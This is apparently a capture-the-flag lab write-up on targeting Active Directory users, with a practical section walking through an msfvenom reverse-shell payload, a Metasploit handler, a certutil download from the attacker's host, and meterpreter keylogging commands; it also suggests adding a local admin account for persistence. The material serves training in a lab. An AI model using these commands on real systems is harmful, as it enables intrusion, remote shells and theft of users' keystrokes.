 This is a straightforward example of targeting AD users. There is a lot more that can be done. It is essential to include user targeting in your exploitation methodology for AD. To answer the questions for this task you will need Keepass. It has been installed on the AttackBox for you so you can just search for and run the application. If you are using your own VM, on most Linux distros `sudo apt install keepassx` will work. Or you can download it from [here](https://keepass.info/download.html). Also make sure to use the meterpreter `download` command to download the Keepass database to you host. If you are using Kali, make sure that the kali user owns the database file before you open it, otherwise it might lock the database and give you incorrect results.

Although persistence will only be discussed in the next room, now might be a good time to create a local account on THMSERVER1 and grant it admin rights so you have a good foothold. Since this is not really needed for the rest of the tasks, if you want to do this, you will need to do a bit of research on this yourself.

### Practical

***

Let's first generate a meterpreter payload:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=exploitad LPORT=4444 -f psh -o pwned.ps1
```

Once generated, we can do:

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT 4444; exploit"
```

Now, we need to go into `evil-winrm` and download the file:

```
# First, set up a python server to host the file:

python3 -m http.server

# Then, on evil-winrm:

certutil.exe -urlcache -split -f http://OUR_IP:8000/pwned.ps1
```

This will successfully download the file, we can then do:

```
.\pwned.ps1
```

This will trigger our meterpreter listener and we will receive the connection:

![](images/Pasted%20image%2020250527144947.png)

Now, on here we need to do:

```
keyscan_start
# We need to wait a couple minutes here, then do
keyscan_dump
# And finally
keyscan_stop
```
